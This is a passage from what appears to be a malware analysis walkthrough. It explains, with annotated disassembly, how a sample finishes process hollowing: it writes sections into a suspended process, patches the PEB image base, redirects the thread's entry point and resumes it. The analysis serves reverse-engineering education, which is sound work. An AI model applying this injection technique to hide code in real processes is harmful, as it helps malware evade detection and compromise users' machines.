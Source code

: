 For each PE section, the `WriteProcessMemory` function writes the section's raw bytes into the newly allocated memory region, starting at the address specified by the `IMAGE_SECTION_HEADER.VirtualAddress` field of the section header.

I can inspect the process memory with Process Hacker to verify that each section is written (place a breakpoint at `0x4012B7`).

Once finished writing the sections, the program updates the `ImageBaseAddress` in the PEB with the proper `ImageBase` value read from the dropped executable PE headers:

```assembly
004012B9 push    0
004012BB push    4               ; nSize
004012BD mov     edx, [ebp+Var_PEHeader]
004012C0 add     edx, IMAGE_NT_HEADERS.OptionalHeader.ImageBase
004012C3 push    edx             ; lpBuffer
004012C4 mov     eax, [ebp+lpContext]
004012C7 mov     ecx, [eax+CONTEXT.Ebx] ; PEB
004012CD add     ecx, 8          ;        ImageBaseAddress
004012D0 push    ecx             ; lpBaseAddress
004012D1 mov     edx, [ebp+hProcess.hProcess]
004012D4 push    edx             ; hProcess
004012D5 call    ds:WriteProcessMemory
```

### Steps 5 and 6: Setting the entry point and resuming the thread

Then the malware uses `SetThreadContext` to set the `EAX` register to the entry point of the malicious executable that was just loaded into the suspended process, so that its execution will resume from there.

The pointer to the EAX register is found in the `CONTEXT` structure at offset `0xB0` (instruction at `0x4012E7`).

```assembly
004012DB mov     eax, [ebp+Var_PEHeader]
004012DE mov     ecx, [ebp+lpBaseAddress]
004012E1 add     ecx, [eax+IMAGE_NT_HEADERS.OptionalHeader.AddressOfEntryPoint]
004012E4 mov     edx, [ebp+lpContext]
004012E7 mov     [edx+CONTEXT.Eax], ecx
004012ED mov     eax, [ebp+lpContext]
004012F0 push    eax             ; lpContext
004012F1 mov     ecx, [ebp+hProcess.hThread]
004012F4 push    ecx             ; hThread
004012F5 call    ds:SetThreadContext
```

And finally the thread is resumed!

```assembly
004012FB mov     edx, [ebp+hProcess.hThread]
004012FE push    edx             ; hThread
004012FF call    ds:ResumeThread
```
